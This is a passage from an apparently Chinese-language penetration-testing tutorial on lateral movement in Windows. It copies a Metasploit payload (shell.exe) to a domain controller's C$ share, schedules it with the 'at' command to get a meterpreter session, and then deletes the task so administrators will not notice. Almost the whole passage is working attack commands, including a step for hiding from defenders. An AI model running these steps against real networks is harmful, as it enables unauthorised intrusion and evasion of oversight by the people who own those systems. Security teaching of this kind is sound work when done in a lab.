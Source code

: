 ![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

3. 然后使用copy命令远程操作，将metasploit生成的payload文件复制到目标系统C盘中：

```


```
copy shell.exe \\192.168.183.130\c$
```




```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

4. 接着使用at命令创建计划任务，让目标主机DC在指定的时间运行metasploit木马程序：

```


```
at \\192.168.183.130 18:53:00 c:\shell.exe
```




```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

如上图，成功在目标主机上创建了一个ID为1，在18:53:00执行shell.exe程序的计划任务

等到时间到达18:53:00时，目标主机上的木马程序shell.exe执行，攻击者主机上面的msfconsole上成功获得目标主机的meterpreter：

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

5. 最后，我们使用完计划任务后，还需要将该计划任务删除，以免被网管理员发现：

```


```
`at \\192.168.183.130 1 /delete``// 1为计划任务的ID`
```




```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)
